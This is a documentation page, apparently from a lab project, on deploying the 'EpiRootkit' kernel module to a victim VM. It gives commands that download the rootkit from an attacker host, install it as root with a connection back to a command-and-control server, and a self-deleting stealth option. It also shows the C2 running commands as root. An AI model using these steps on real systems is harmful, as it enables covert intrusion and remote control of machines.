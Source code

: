 ```yaml
---
title: "Victim VM Setup"
description: "Configure the victim VM and deploy the EpiRootkit"
icon: "shield"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 204
---
```


# Victim VM Setup

Deploy the EpiRootkit kernel module on the victim system.

## Prerequisites

1. **Host setup complete**: [Host Environment Setup]({{< relref "environment.md" >}})
2. **VM downloaded**: `vm/victim.qcow2` in project root
3. **VM launched**: `sudo ./scripts/run_vms.sh victim`

## VM Access

**Connection Details:**
- **IP Address**: 192.168.200.10 (static)
- **Username**: `victim` / **Password**: `jules`
- **Target**: Ubuntu 20.04 LTS with kernel 5.4.0

## Deployment Process

### 1. Receive Payload
Get the rootkit files from the attacker VM:

```bash
# Option A: HTTP download
wget http://192.168.200.11:8080/epirootkit.ko
wget http://192.168.200.11:8080/deploy_rootkit.sh

# Option B: SCP transfer
# Files transferred by attacker to victim@192.168.200.10:~/

# Option C: Web UI upload
# Use attacker's web interface file transfer panel
```

### 2. Deploy Rootkit
```bash
# Simple deployment (connects to 192.168.200.11:4444)
sudo ./deploy_rootkit.sh

# Custom C2 server
sudo ./deploy_rootkit.sh address=IP port=PORT

# Stealth deployment (self-destructs)
sudo ./deploy_rootkit.sh --self-delete
```

### 3. Verify Connection
Switch to attacker VM C2 server:
```bash
c2-server$ ls
# • Client-1 - UNAUTHENTICATED - Last seen: Just now

c2-server$ auth Client-1 password
c2-server$ exec Client-1 whoami
# Exit code: 0, Output: root
```

## Management

```bash
# Check status
sudo ./deploy_rootkit.sh status

# Remove rootkit
sudo ./deploy_rootkit.sh uninstall
```

For detailed deployment script options, see [EpiRootkit Deployment](../../05-epirootkit/deployment.md).
